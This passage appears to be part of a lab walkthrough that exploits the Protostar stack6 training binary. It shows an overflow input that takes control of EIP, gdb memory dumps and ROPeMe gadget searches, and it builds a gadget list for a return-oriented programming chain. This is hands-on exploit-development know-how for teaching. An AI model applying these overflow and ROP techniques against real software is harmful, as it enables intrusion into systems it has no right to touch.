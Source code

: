 <pre><code>
~/ $ python -c 'print "A"\*80 + "\x41\x42\x43\x44"' > six
...in another term
/opt/protostar/bin $ gdb -q ./stack6
(gdb) r < ~/six
Starting program: /opt/protostar/bin/stack6 < ~/six
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHI

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
(gdb) x/16xw $esp-40
0xbffff648:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff658:     0x41414141      0x44434241      0x41414141      0x41414141
0xbffff668:     0x41414141      0x44434241      0x48474645      0x00000049
0xbffff678:     0xbffff6f8      0xb7eadc76      0x00000001      0xbffff724
</code></pre>

Okay so it is probably safe to add to one of the addresses near the top of this print out, lets just say 0xbffff648. So now we can use gdb to subtract the two numbers.

<pre><code>
(gdb) p/x 0xbffff648 - 0x5d5b04c4
$1 = 0x62a4f184
</code></pre>

Score, so now we need a way to pop 0x62a4f184 into ebx before the xchg gadget. Back to ROPeMe.

<pre><code>
ROPeMe> search pop ebx %
Searching for ROP gadget:  pop ebx % with constraints: []
0x804835dL: pop ebx ; leave ;;
0x80485c5L: pop ebx ; leave ;;
0x8048452L: pop ebx ; pop ebp ;;
0x80485a7L: pop ebx ; pop ebp ;;
</code></pre>

A few options here, but I'll take one of the ones without a leave because those seem to mess things up. The pop ebp doesn't matter because we are worried about the top of the stack, not the bottom. 0x8048452 looks good. So now that we have solved the two problems with the xchg gadget, we can move on to actually getting data into eax. To do this, we need to get data into edi because that is what xchg is going to put into eax. ROPeMe again!

<pre><code>
ROPeMe> search pop edi %
Searching for ROP gadget:  pop edi % with constraints: []
0x8048577L: pop edi ; pop ebp ;;
</code></pre>

Nice. That gadget will work just fine. Another pop ebp but again that is no big deal as shown later in the actual exploit code. 

So here is what we have so far:
<ul>
<li>4 gadgets:</li>
<ol>
    <li>0x8048452L: pop ebx ; pop ebp ;;</li>
    <li>0x804847fL: call eax ; leave ;;</li>
    <li>0x804844bL: xchg edi eax ; add al 0x8 ; add [ebx+0x5d5b04c4] eax ;;</li>
    <li>0x8048577L: pop edi ; pop ebp ;;</li>
</ol>
<li>Control of EIP</li>
<li>An address to feed into ebx to make sure our xchg gadget doesn't crash @ 0x62a4f184</li>
</ul>
